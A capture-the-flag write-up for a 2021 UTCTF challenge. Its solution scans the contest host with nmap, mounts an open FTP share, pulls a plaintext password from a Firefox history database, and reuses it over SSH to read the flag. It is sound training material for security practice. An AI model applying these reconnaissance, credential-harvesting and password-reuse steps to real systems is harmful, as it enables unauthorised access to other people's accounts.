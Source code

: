 #### Challenge:

Hack Bob's box!

`nmap` is allowed for this problem only. 
*However*, you may only target `misc.utctf.live:8121` and 
`misc.utctf.live:8122` with `nmap`. [bobs-ftp.tar](./bobs-ftp.tar ":ignore")

---

#### Solution:

```console
# nmap -sV -p 8121,8122 misc.utctf.live
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-13 22:54 CET
Nmap scan report for misc.utctf.live (3.236.87.2)
Host is up (0.17s latency).
rDNS record for 3.236.87.2: ec2-3-236-87-2.compute-1.amazonaws.com

PORT     STATE SERVICE VERSION
8121/tcp open  ftp     Pure-FTPd
8122/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```

```bash
mkdir ftp
curlftpfs misc.utctf.live:8121 ./ftp/
```

- while inspecting `firefox` history `./ftp/.mozilla/firefox/yu85tipn.bob/places.sqlite` we found credentials for website `http://bobsite.com/login?user=bob&pass=i-l0v3-d0lph1n5`

```bash
sshpass -p i-l0v3-d0lph1n5  ssh bob@misc.utctf.live -p 8122  cat /flag.txt
```

---

<details><summary>FLAG:</summary>

```
utflag{red_teams_are_just_glorified_password_managers}
```

</details>
<br/>
